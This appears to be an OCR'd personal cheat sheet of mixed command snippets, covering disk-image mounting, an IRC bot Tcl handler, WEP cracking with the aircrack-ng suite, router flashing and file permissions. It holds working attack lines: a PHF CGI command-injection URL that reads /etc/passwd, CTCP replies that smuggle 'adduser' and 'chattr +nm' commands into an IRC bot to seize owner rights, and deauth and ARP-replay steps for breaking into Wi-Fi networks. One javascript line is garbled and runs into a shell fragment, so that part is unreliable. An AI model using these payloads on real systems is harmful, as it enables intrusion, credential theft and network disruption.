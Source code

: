     sfdisk -l -uS imagefile

    mount -oloop,offset=4711 imagefile /mnt/point

    nolmhash

    bind ctcr - PING ctcr:pingreply
    proc ctcr:pingreply {nick uhost hand dest key arg} {
    set dur [expr [unixtime] - $arg]
    putserv "NOTICE $nick :Your ping reply took $dur seconds" }
    /ctcpreply  PING [ adduser  *!@ * ]
    /ctcpreply  PING [ chattr  +nm ]
    /msg  pass 
    /dcc chat 

    http://www.try2hack.nl/cgi-bin/phf?Qalias=x%0a/bin/cat%20/etc/passwd




    ARP REPLAY: aireplay -3 -b  -h  (-x ) ath0
    DEAUTH:   aireplay -0 1 -a  -c  ath0

    -ng commands:
    sniff:
        airodump-ng ath0
    sniff on channel 11 and dump:
        airodump-ng -c 11 -w dump ath0
    test if injection works:
        aireplay-ng –fakeauth 0 -e ESSID -a BSSID -h YOUR_MAC ath0
    start arp replay:
        aireplay-ng –arpreplay -b BSSID -h CONNECTED_CLIENT ath0
    force clients to reconnect:
        aireplay-ng –deauth 5 -a BSSID -c CONNECTED_CLIENT ath0
    crack:
        aircrack-ng -b BSSID dump-01.cap


    GetProcAddress(LoadLibrary(“powrprof.dll”), “SetSuspendState”)(TRUE,TRUE,TRUE);


    javascript:R=0; x1=.1; y1=.05; x2=.25; y2=.24; x3=1.6; y3=.24;x4=300; y4=200; x5=300; y5=200; DI=document.images; DIL=DI.length;function A(){for(i=0; i~/dumps/`date +%Y%m%d%H%M%S`.jpg


    dd if=filename of=/dev/fd0 bs=1024 conv=sync ; sync


    tftp
     binary
     trace
    put openwrt-brcm-2.4-squashfs.trx
    openwrt-wrt54g-squashfs.bin


    NoDriveTypeAutoRun -> ff


    find verzeichnis -type d -print | xargs chmod 755
    find verzeichnis -type f -print | xargs chmod 644
